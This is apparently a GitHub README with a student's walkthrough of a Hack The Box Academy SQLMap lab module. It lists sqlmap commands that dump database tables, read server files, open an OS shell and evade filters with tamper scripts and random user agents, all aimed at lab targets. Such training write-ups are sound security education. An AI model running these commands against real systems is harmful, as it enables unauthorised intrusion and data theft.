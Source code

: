 Hack The Box Academy – SQLMap Essentials: Walkthrough & Skills Assessment

This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

Module Exercises

Case 1: Basic Dump

sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch

Case 2: Simple Request

sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch

Case 3: Cookie-Based Injection

sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch

Case 4: Simple Dump

sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch

Case 5: Time-Based Blind SQLi

sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries

Case 6: Using Prefix Payload

sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'

Case 7: Union-Based Injection

sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL

Case 8: CSRF Token Handling

sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast

Case 9: Randomized Parameter

sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid

Case 10: Random Agent

sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast

Case 11: Tamper Script

sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast

File Reading & OS Shell

sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt

OS Shell Access

sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null

Skills Assessment: Minishop Web App

Overview

Application: Minishop

Pages Analyzed: Blog, Contact Us, Catalog

Findings

Blog: Not vulnerable (form action is '#')

Contact Us: Not vulnerable (form action is '#')

Catalog (/shop): Vulnerable — uses JavaScript to post JSON to action.php

Exploitation

Intercepted request using Burp Suite

Saved to shop.txt

Exploited with SQLMap:

sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump

Outcome

Successfully dumped final_flag table from the production database.

Conclusion

This module strengthened my understanding of:

SQL injection techniques (Boolean-based, Time-based, Union-based)

Tamper scripts, CSRF tokens, and header injection

File read and OS shell interaction

Real-world application analysis and exploitation

I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics.

📁 Repository Structure

.
├── cases/
│   ├── Case1.txt
│   ├── Case2.txt
│   └── ...
├── shop.txt
├── read_file.txt
├── sqlmap_commands.md
└── README.md  <-- (this file)

Feel free to fork this repository and use it as a reference for your own HTB Academy progress!

🚀 Author

Manoj Ghimire

Connect on LinkedIn | Contact: email@example.com

📜 License

This project is licensed under the MIT License.

MIT License

Copyright (c) 2025 Manoj Ghimire

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

